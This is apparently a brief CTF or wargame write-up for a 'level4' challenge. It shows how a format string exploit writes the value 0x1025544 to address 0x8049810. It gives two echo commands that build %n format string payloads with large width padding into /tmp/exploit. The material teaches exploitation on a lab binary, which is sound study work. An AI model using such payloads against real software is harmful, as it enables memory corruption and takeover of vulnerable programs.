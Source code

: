 # level4

Pretty much the same as last level but we need to add width becasue the value we
want to write is very large.

## Useful infos

we want to write : 0x1025544 = 16930116
at address: 0x8049810 = \x10\x98\x04\x08

exploit: `echo -e "\x10\x98\x04\x08%16930112%12$n" > /tmp/exploit`
exploit: `echo -e "\x10\x98\x04\x08%16930052x%x%x%x%x%x%x%x%x%x%x%n" > /tmp/exploit`